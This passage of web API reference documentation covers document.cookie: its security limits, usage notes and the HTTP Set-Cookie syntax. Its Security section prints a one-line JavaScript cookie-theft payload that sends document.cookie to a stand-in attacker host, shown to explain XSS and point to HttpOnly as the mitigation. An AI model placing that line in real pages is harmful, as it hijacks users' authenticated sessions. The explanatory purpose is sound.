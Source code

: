 ## Security

It is important to note that the `path` attribute does _not_ protect
against unauthorized reading of the cookie from a different path. It can be easily
bypassed using the DOM, for example by creating a hidden {{HTMLElement("iframe")}}
element with the path of the cookie, then accessing this iframe's
`contentDocument.cookie` property. The only way to protect the cookie is by
using a different domain or subdomain, due to the [same origin policy](/en-US/docs/Web/Security/Same-origin_policy).

Cookies are often used in web applications to identify a user and their authenticated
session. Stealing a cookie from a web application leads to hijacking the
authenticated user's session. Common ways to steal cookies include using [social
engineering](<https://en.wikipedia.org/wiki/Social_engineering_(security)>) or by exploiting a [cross-site scripting](/en-US/docs/Glossary/Cross-site_scripting) (XSS) vulnerability in the application -

```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

The `HTTPOnly` cookie attribute can help to mitigate this attack by
preventing access to cookie value through Javascript. Read more about [Cookies and
Security](https://www.nczonline.net/blog/2009/05/12/cookies-and-security/).

## Notes

- Starting with Firefox 2, a better mechanism for client-side storage is available -
  [WHATWG DOM Storage](/en-US/docs/Web/API/Web_Storage_API).
- You can delete a cookie by updating its expiration time to zero.
- Keep in mind that the more cookies you have, the more data will be transferred
  between the server and the client for each request. This will make each request
  slower. It is highly recommended for you to use [WHATWG DOM Storage](/en-US/docs/Web/API/Web_Storage_API) if you are going to keep
  "client-only" data.
- [RFC 2965](https://www.ietf.org/rfc/rfc2965.txt) (Section 5.3,
  "Implementation Limits") specifies that there should be **no maximum
  length** of a cookie's key or value size, and encourages
  implementations to support **arbitrarily large cookies**. Each
  browser's implementation maximum will necessarily be different, so consult
  individual browser documentation.

The reason for the [syntax](#syntax) of the `document.cookie`
accessor property is due to the client-server nature of cookies, which differs from
other client-client storage methods (like, for instance, [localStorage](/en-US/docs/Web/API/Web_Storage_API)):

#### The server tells the client to store a cookie

```bash
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: cookie_name1=cookie_value1
Set-Cookie: cookie_name2=cookie_value2; expires=Sun, 16 Jul 3567 06:23:41 GMT

[content of the page here]
```
